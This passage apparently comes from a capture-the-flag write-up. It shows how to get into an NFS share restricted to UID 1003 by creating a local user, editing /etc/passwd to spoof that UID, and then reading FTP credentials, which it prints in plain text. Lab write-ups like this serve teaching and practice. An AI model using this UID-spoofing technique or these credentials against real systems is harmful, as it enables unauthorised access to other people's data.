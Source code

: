 with the share mounted, when we try to access the directory we get an error saying we do not have permission.

Only the user or group in UID 1003 can access the folder.

we can attempt to create a new user and add a password using the following command

```
sudo useradd hijackuser
sudo passwd hijackuser
```

![Alt text](/posts/res/hij_7.png)


next we need to edit out `passwd` file and change the UID of our new user account to match 1003.

```
nano /etc/passwd

hijackuser:x:1003:1003::/home/hijackuser:/bin/sh

```

with these steps complete, we can now switch users into the `hijackuser` account.

```
su hijackuser 
```

now we can access the mounted share directory 

![Alt text](/posts/res/hij_8.png)

we find a file in the directory. viewing this file gives us the credentials to the FTP service.

```
ftp <IP>
Username: ftpuser
Password: W3stV1rg1n14M0un741nM4m4

```
we can see that there are a couple of files on the system.
